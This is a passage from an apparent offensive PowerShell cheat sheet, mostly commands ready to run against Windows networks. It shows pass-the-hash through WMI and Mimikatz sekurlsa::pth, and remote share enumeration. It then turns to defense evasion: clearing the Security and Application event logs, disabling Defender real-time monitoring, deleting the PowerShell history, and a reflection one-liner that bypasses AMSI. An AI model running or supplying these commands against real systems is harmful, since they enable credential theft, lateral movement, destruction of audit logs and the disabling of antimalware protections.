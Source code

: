 * **PowerShell Pass-the-Hash**:

```powershell
Invoke-WmiMethod -ComputerName <target_ip> -Credential (New-Object System.Management.Automation.PSCredential("<user>", (ConvertTo-SecureString "aad3b435b51404eeaad3b435b51404ee:<hash>" -AsPlainText -Force))) -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami"
```

* **Mimikatz Pass-the-Hash**:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<UserName> /domain:<Domain> /ntlm:<NTLM_Hash> /run:powershell.exe"'
```

#### 5.6 Enumerate Shares&#x20;

* **Enumerate Shared Resources on Remote Machine**:

```powershell
Invoke-ShareFinder -ComputerName <ComputerName>
```

## 6. Defense Evasion&#x20;

#### 6.1 Clear Event Logs&#x20;

* **Clear Security Event Log**:

```powershell
Clear-EventLog -LogName Security
```

* **Clear Application Event Log**:

```powershell
Clear-EventLog -LogName Application
```

#### 6.2 Disable Windows Defender&#x20;

* **Disable Windows Defender**:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

#### 6.3 Remove Execution History&#x20;

* **Clear PowerShell Execution History**:

```powershell
Remove-Item -Path (Get-PSReadlineOption).HistorySavePath
```

#### 6.4 Bypass AMSI (Antimalware Scan Interface)&#x20;

* **AMSI Bypass using Reflection**:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
